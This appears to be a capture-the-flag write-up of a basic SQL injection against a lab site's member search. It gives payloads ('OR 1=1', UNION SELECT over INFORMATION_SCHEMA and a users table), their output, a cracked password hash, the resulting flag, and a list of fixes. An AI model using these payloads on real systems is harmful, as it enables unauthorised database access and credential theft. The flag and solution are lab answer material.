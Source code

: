 # SQL Injection (Basic) 🏴<!-- omit in toc -->

```txt
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

- [Location 🗺️](#location-️)
- [Vulnerability](#vulnerability)
- [Method](#method)
- [Tools & References](#tools--references)
- [Fix](#fix)

## Location 🗺️

'http://\<ip-address>:80/index.php?page=member'

## Vulnerability

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method

I entered `105 OR 1=1` in the search box. This returned:

```txt
ID: 105 OR 1=1
First name: Barack Hussein
Surname : Obama

ID: 105 OR 1=1
First name: Adolf
Surname : Hitler

ID: 105 OR 1=1
First name: Joseph
Surname : Staline

ID: 105 OR 1=1
First name: Flag
Surname : GetThe
```

The account of note is `First name: Flag` & `Surname: GetThe`. This is id=5

```txt
ID: 5
First name: Flag
Surname : GetThe
```

So I start running commands using 5 as my focus. The first
thing to do is to find out which tables are present and which coloumns:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
```

We have found the users table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT Commentaire, countersign FROM users
```

OR to narrow the search down query:

```sql
5 UNION SELECT Commentaire, countersign FROM users WHERE user_id =5
```

This will return:

```txt
ID: 5 UNION SELECT Commentaire, countersign FROM users Where user_id=5
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

This is an MD5 hash is:
`5ff9d0165b4f92b14994e5c685cdce28: FortyTwo`

The SHA256 for `fortytwo: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Tools & References

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.
